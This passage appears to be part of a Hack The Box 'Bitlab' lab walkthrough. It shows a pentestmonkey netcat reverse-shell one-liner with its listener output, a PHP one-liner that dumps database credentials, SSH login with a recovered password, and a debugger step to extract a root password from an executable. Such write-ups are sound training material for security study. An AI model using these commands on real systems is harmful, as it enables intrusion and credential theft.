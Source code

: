 rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
from pentest monkey

then got the reverse shell as www-data

root@ch4n:~/HTB/bitlab#nc -lnvp 1234           
Connection from 10.10.10.114:40202
Linux bitlab 4.15.0-29-generic #31-Ubuntu SMP Tue Jul 17 15:39:52 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 15:17:39 up 5 min,  0 users,  load average: 0.75, 0.79, 0.42
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@bitlab:/$ sudo -l
sudo -l
Matching Defaults entries for www-data on bitlab:
    env_reset, exempt_group=sudo, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
 
User www-data may run the following commands on bitlab:
    (root) NOPASSWD: /usr/bin/git pull
www-data@bitlab:/$
But I wasnt not able to perform anything so I need to try with postrge sql.

php -r '$db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");$result = pg_query($db_connection, "SELECT * FROM profiles");print_r(pg_fetch_all($result));'
Array
(
    [0] => Array
        (
            
 => 1
            
 => clave
            
 => c3NoLXN0cjBuZy1wQHNz==
        )

)

then we got the user and pass fort ssh.. I decoded this base64 string then login to ssh.

 root@ch4n:~# echo -n c3NoLXN0cjBuZy1wQHNz==| base64 -d
ssh-str0ng-p@ssbase64: invalid input
it said like that so I decided to login to ssh with this pure base64 string then it worked:-) and grab the user.txt


Privilege escalation
clave@bitlab:~$ ls -la
total 44
drwxr-xr-x 4 clave clave  4096 Aug  8 14:40 .
drwxr-xr-x 3 root  root   4096 Feb 28  2019 ..
lrwxrwxrwx 1 root  root      9 Feb 28  2019 .bash_history -> /dev/null
-rw-r--r-- 1 clave clave  3771 Feb 28  2019 .bashrc
drwx------ 2 clave clave  4096 Aug  8 14:40 .cache
drwx------ 3 clave clave  4096 Aug  8 14:40 .gnupg
-rw-r--r-- 1 clave clave   807 Feb 28  2019 .profile
-r-------- 1 clave clave 13824 Jul 30 19:58 RemoteConnection.exe
-r-------- 1 clave clave    33 Feb 28  2019 user.txt
there is an interesting file called RemoteConnection.exe I downloaded this to my machine And I added to x32 debugger and I set a breeakpoint at acess denied got the ssh root password
